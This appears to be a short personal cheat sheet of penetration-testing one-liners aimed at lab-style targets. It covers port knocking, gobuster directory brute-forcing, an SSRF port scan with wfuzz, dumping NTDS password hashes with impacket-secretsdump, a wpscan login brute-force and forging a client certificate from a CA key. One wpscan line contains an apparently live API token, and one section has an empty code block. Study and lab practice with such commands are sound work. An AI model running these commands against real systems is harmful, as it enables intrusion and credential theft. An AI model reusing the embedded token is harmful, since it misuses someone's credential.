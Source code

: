 ## port knocking on 3 ports using nmap
```bash
for x in $(echo 22 23 24);do nmap -PN --host-timeout 201 --max-retries 0 -r -p$x 192.168.0.106;done
```

## classic gobuster
```bash
gobuster dir -u http://10.10.10.55:8080 -a 'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3831.6 Safari/537.36' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -k -o gobuster/http-dlist-lower-small.txt
```

## list contents of .vhd file
```bash
7z l filename.vhd
```

## extract a single file from .vhd using 7z
```

```

## do a local port scan using SSRF
```bash
# --hl=2 is hide responses that has 2 lines. 
wfuzz -c --hl=2 -z range,1-65535 http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ
```

## dump password hasshes from ntds dump file using system hive file and the dit file
```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM.bin LOCAL
# tip: users ending with $ are system accounts and has hard passwords, look for other ones
```
## wpscan enum all plugins 
```bash
wpscan --url http://10.10.10.88/webservices/wp/ --enumerate ap --plugins-detection aggressive --force --api-token o3Oj8OysJNmHbVf5PoEMe6ASLUrac3Q5KJB8G0aguz4
```

## wpscan brute
```bash
wpscan --usernames tom -P /usr/share/wordlists/rockyou.txt --force --password-attack wp-login --url http://192.168.137.131/prehistoricforest/ --no-update
```

## generate client certificate from ca.key
```bash
openssl req -x509 -new -nodes -key ca.key -sha256 -days 1024 -out rh.pem
openssl pkcs12 -export -in rh.pem -inkey ca.key -out rh.p12
```
